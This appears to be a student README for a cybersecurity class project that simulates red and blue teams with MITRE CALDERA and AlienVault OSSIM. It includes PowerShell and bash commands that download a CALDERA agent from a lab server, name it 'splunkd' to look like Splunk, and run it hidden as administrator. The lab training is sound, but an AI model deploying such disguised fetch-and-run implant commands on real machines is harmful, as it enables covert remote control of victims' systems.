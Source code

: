 # Cybersecurity
This repository will contain our final project for our cybersecurity class. We will show the command, and mostly the screenshot and the report of our overall project.


Our final project title is: Red-Blue Team Simulation with OSSIM SIEM


In this project, we utilize MITRE CALDERA and Alien Vault OSSIM to create a simulation of an attack to our computer. We utlized some of the Caldera attack capability to gather data and information of our target while monitoring the network by utilizing the Alien Vault OSSIM. 

Caldera - An attack and defense simulation game in Linux which consists of two teams

Red Team - Attacking the victim computer

Blue Team - Defending the victim computer


OSSIM - Security Information and Event Management to track the events going on with the victim


Code below show the powershell script that we would need to run on an elevated privilage (run as administrator)
```powershell
$server="http://192.168.0.142:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

Below is the code that we run on linux victim machine
```bash
server="http://192.168.0.142:8888/";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```
